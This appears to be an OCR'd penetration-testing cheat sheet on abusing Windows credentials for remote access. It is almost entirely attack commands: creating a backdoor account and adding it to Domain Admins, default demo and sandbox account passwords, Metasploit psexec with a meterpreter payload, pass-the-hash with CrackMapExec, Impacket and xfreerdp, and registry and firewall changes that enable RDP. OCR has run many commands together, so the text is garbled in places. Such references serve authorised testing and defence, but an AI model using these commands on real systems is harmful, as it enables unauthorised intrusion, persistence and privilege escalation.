 # Windows - Using credentials

# Windows - Using credentials

## Summary

- [TIPS](about:blank#tips)
    - [TIP 1 - Create your credential](about:blank#tip-1-create-your-credential)
    - [TIP 2 - Retail Credential](about:blank#tip-2-retail-credential)
    - [TIP 3 - Sandbox Credential - WDAGUtilityAccount](about:blank#tip-3-sandbox-credrential-wdagutilityaccount)
- [Metasploit](about:blank#metasploit)
    - [Metasploit - SMB](about:blank#metasploit-smb)
    - [Metasploit - Psexec](about:blank#metasploit-psexec)
- [Crackmapexec](about:blank#crackmapexec)
- [Winexe](about:blank#winexe)
- [Psexec.py / Smbexec.py / Wmiexec.py](about:blank#psexec.py---smbexec.py---wmiexec.py)
- [PsExec - Sysinternal](about:blank#psexec-sysinternal)
- [RDP Remote Desktop Protocol](about:blank#rdp-remote-desktop-protocol)
- [Netuse](about:blank#netuse)
- [Runas](about:blank#runas)

## TIPS

### TIP 1 - Create your credential

    net user hacker hacker1234* /addnet localgroup administrators hacker /addnet localgroup "Remote Desktop Users" hacker /add # RDP accessnet localgroup "Backup Operators" hacker /add # Full access to filesnet group "Domain Admins" hacker /add /domain

Some info about your user

    net user /domnet user /domain

### TIP 2 - Retail Credential

Retail Credential [@m8urnett on Twitter](https://twitter.com/m8urnett/status/1003835660380172289)

when you run Windows in retail demo mode, it creates a user named Darrin DeYoung and an admin RetailAdmin

    Username: RetailAdminPassword: trs10

### TIP 3 - Sandbox Credential - WDAGUtilityAccount

WDAGUtilityAccount - [@never_released on Twitter](https://twitter.com/never_released/status/1081569133844676608)

Starting with Windows 10 version 1709 (Fall Creators Update), it is part of Windows Defender Application Guard

    \\windowssandboxUsername: wdagutilityaccountPassword: pw123

## Metasploit

### Metasploit - SMB

    use auxiliary/scanner/smb/smb_loginset SMBDomain DOMAINset SMBUser usernameset SMBPass passwordservices -p 445 -Rruncreds

### Metasploit - Psexec

Note: the password can be replaced by a hash to execute a `pass the hash` attack.

    use exploit/windows/smb/psexecset RHOST 10.2.0.3set SMBUser usernameset SMBPass passwordset PAYLOAD windows/meterpreter/bind_tcprunshell

## Crackmapexec

    git clone https://github.com/byt3bl33d3r/CrackMapExec.githubpython crackmapexec.py 10.9.122.0/25 -d DOMAIN -u username -p passwordpython crackmapexec.py 10.10.10.10 -d DOMAIN -u username -p password -x whoami# pass the hashcme smb 172.16.157.0/24 -u administrator -H 'aad3b435b51404eeaad3b435b51404ee:5509de4ff0a6eed7048d9f4a61100e51' --local-auth

## Winexe

Integrated to Kali

    winexe -U DOMAIN/username%password //10.10.10.10 cmd.exe

## Psexec.py / Smbexec.py / Wmiexec.py

from Impacket

    git clone https://github.com/CoreSecurity/impacket.gitpython psexec.py DOMAIN/username:password@10.10.10.10python smbexec.py DOMAIN/username:password@10.10.10.10python wmiexec.py DOMAIN/username:password@10.10.10.10# psexec.exe -s cmd# switch admin user to NT Authority/System

## PsExec - Sysinternal

from Windows - [Sysinternal](https://docs.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite)

    PsExec.exe  \\ordws01.cscou.lab -u DOMAIN\username -p password cmd.exePsExec.exe  \\ordws01.cscou.lab -u DOMAIN\username -p password cmd.exe -s  # get System shell

## RDP Remote Desktop Protocol

    python rdpcheck.py DOMAIN/username:password@10.10.10.10rdesktop -d DOMAIN -u username -p password 10.10.10.10 -g 70 -r disk:share=/home/user/mysharerdesktop -u username -p password -g 70 -r disk:share=/tmp/myshare 10.10.10.10# -g : the screen will take up 70% of your actual screen size# -r disk:share : sharing a local folder during a remote desktop session

Note: you may need to enable it with the following command

    reg add "HKLM\System\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0x00000000 /fnetsh firewall set service remoteadmin enablenetsh firewall set service remotedesktop enable

or with psexec(sysinternals)

    psexec \\machinename reg add "hklm\system\currentcontrolset\control\terminal server" /f /v fDenyTSConnections /t REG_DWORD /d 0

or with crackmapexec

    crackmapexec 192.168.1.100 -u Jaddmon -H 5858d47a41e40b40f294b3100bea611f -M rdp -o ACTION=enable

or with Metasploit

    run getgui -u admin -p 1234

Then log in using xfreerdp

    xfreerdp /u:offsec /d:win2012 /pth:88a405e17c0aa5debbc9b5679753939d /v:10.0.0.1 # pass the hash works for Server 2012 R2 / Win 8.1+xfreerdp -u test -p 36374BD2767773A2DD4F6B010EC5EE0D 192.168.226.129 # pass the hash using Restricted Admin, need an admin account not in the "Remote Desktop Users" group.xfreerd /u:runner /v:10.0.0.1 # password will be asked

## Netuse

Windows only

    net use \\ordws01.cscou.lab /user:DOMAIN\username passwordC$

## Runas

    runas /netonly /user:DOMAIN\username "cmd.exe"runas /noprofil /netonly /user:DOMAIN\username cmd.exe

## References

- [Ropnop - Using credentials to own Windows boxes](https://blog.ropnop.com/using-credentials-to-own-windows-boxes/)
- [Ropnop - Using credentials to own Windows boxes Part 2](https://blog.ropnop.com/using-credentials-to-own-windows-boxes-part-2-psexec-and-services/)
- [Gaining Domain Admin from Outside Active Directory](https://markitzeroday.com/pass-the-hash/crack-map-exec/2018/03/04/da-from-outside-the-domain.html)